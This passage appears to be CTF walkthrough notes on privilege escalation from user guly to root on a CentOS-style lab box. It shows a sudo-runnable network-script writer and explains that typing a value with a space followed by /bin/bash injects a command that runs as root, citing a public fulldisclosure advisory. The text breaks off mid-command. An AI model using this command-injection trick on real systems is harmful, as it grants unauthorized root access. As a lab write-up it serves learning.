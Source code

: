 ```
```
	- we gain user guly shell.
------
## Privilege Escalation
- We pass:
	```bash
sudo -l
```
	- and find:
		```bash	
- /usrlocal/sbin/changename.sh
```
	- We read it:
		```bash
ls -la /usr/local/sbin/changename.sh # we find we can't modify it, and owned by root
cat /usr/local/sbin/changename.sh

---OUTPUT---
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
		- Creates a network script.
		- has regular expressions listed ("\ " implies space included)
		- code asks to enter name
			- if its NOT somewhat equal to regular expression, say it's wrong input, else print out the interface name.
		- then copies details to the file and does ifup on it.
- **This is the hard part, finding the exploit**
	- we could search on google some of the following.. **Key note is use "fulldisclosure" as thats a good website, maybe seclists too considering the link**
		- network scripts red hat linux command inject (2 option in search)
		- centos network scripts rce fulldisclosure (2 option)
		- centos network scripts rce fulldisclosure (1st option)
	- we find a url:
		https://seclists.org/fulldisclosure/2019/Apr/24
		- **can execute command after adding space**
- We run the command :
	```bash
sudo /usr/local/sbin/changename.sh
```
	- Add any input for each and for one of them add a space and put /bin/bash
		```bash
whoami
> guly
sudo /usr/local/sbin/changename.sh